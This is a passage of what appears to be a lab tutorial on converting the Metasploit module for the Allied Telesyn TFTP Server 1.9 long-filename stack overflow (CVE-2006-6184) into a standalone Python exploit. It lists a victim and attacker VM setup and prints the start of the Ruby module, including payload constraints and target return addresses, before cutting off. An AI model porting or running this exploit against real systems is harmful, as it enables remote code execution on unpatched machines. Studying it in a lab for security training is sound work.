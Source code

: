 
Welcome file

# Creating Standalone Metasploit Module
Sometimes you are in such an environment where you don't have the Metasploit and one service is vulnerable to some findings and one Metasploit Module is already available. So we need to create a standalone exploit from Metasploit Module.

We’re going to be adapting the attftp_long_filename.rb module located at `/usr/share/metasploit-framework/modules/exploits/windows/tftp/attftp_long_filename.rb` and changing it into our own stand alone Python exploit.

**Requirements**

-   Windows XP – SP3 Virtual Machine (Victim).
-   Kali Linux Virtual Machine (Attacker).
-   Allied Telesyn TFTP Server 1.9 (Available [here](http://netsec.ws/wp-content/downloads/at-tftpd19.exe "here")).

attftp_long_filename.rb  
```
##
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
 
require 'msf/core'
 
class Metasploit3 < Msf::Exploit::Remote
  Rank = AverageRanking
 
  include Msf::Exploit::Remote::Udp
 
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Allied Telesyn TFTP Server 1.9 Long Filename Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in AT-TFTP v1.9, by sending a
        request (get/write) for an overly long file name.
      },
      'Author'         => [ 'patrick' ],
      'References'     =>
        [
          ['CVE', '2006-6184'],
          ['OSVDB', '11350'],
          ['BID', '21320'],
          ['EDB', '2887'],
          ['URL', 'ftp://guest:guest@ftp.alliedtelesyn.co.uk/pub/utilities/at-tftpd19.zip'],
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
```